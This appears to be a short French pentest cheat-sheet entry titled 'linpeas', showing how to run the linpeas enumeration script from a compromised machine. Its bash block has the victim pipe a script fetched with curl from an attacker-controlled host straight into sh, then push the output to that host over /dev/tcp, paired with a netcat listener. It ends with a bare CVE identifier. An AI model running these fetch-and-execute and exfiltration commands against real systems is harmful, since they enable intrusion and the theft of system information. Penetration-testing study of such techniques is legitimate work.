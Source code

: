 #linpeas 
Exécuter un programme sur un reverse shell
```bash
attacker1$ python3 -m http.server  <- se lance sur le port 8000
attacker2$ nc -nlvp 9000 | tee linpeas-out.txt 

victim$ curl http://attacker_ip:8000/linpeas.sh | sh > /dev/tcp/attacker_ip/9000
```

CVE-2023-23752